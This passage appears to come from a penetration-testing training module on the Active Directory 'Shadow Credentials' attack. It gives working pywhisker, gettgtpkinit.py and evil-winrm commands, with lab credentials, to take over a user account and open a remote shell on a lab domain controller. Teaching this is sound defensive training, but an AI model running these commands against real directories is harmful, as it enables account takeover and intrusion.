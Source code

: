 [Shadow Credentials](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab) refers to an Active Directory attack that abuses the [msDS-KeyCredentialLink](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/f70afbcc-780e-4d91-850c-cfadce5bb15c) attribute of a victim user. This attribute stores public keys that can be used for authentication via PKINIT. In BloodHound, the `AddKeyCredentialLink` edge indicates that one user has write permissions over another user's `msDS-KeyCredentialLink` attribute, allowing them to take control of that user.

![Diagram showing a connection between two users, wwhite@inlanefreight.locall and jpinkman@inlanefreight.locall, labeled "AddKeyCredentialLink."](https://academy.hackthebox.com/storage/modules/308/img/PtC_2.png)

We can use [pywhisker](https://github.com/ShutdownRepo/pywhisker) to perform this attack from a Linux system. The command below generates an `X.509 certificate` and writes the `public key` to the victim user's `msDS-KeyCredentialLink` attribute:

```shell-session
$ pywhisker --dc-ip 10.129.234.109 -d INLANEFREIGHT.LOCAL -u wwhite -p 'package5shores_topher1' --target jpinkman --action add
```
we can see that a `PFX (PKCS12)` file was created (`eFUVVTPf.pfx`), and the password is shown. We will use this file with `gettgtpkinit.py` to acquire a TGT as the victim:



```shell-session
python3 gettgtpkinit.py -cert-pfx ../eFUVVTPf.pfx -pfx-pass 'bmRH4LK7UwPrAOfvIx6W' -dc-ip 10.129.234.109 INLANEFREIGHT.LOCAL/jpinkman /tmp/jpinkman.ccache
```
With the TGT obtained, we may once again `pass the ticket`:

Pass the Certificate

```shell-session
export KRB5CCNAME=/tmp/jpinkman.ccache
klist
```
In this case, we discovered that the victim user is a member of the `Remote Management Users` group, which permits them to connect to the machine via `WinRM`.
```shell-session
$ evil-winrm -i dc01.inlanefreight.local -r inlanefreight.local
```

## No PKINIT?

In certain environments, an attacker may be able to obtain a certificate but be unable to use it for pre-authentication as specific victims (e.g., a domain controller machine account) due to the KDC not supporting the appropriate EKU. The tool [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/) was created for such situations. It can be used to authenticate against LDAPS using a certificate and perform various attacks (e.g., changing passwords or granting DCSync rights). This attack is outside the scope of this module but is worth reading about [here](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html).
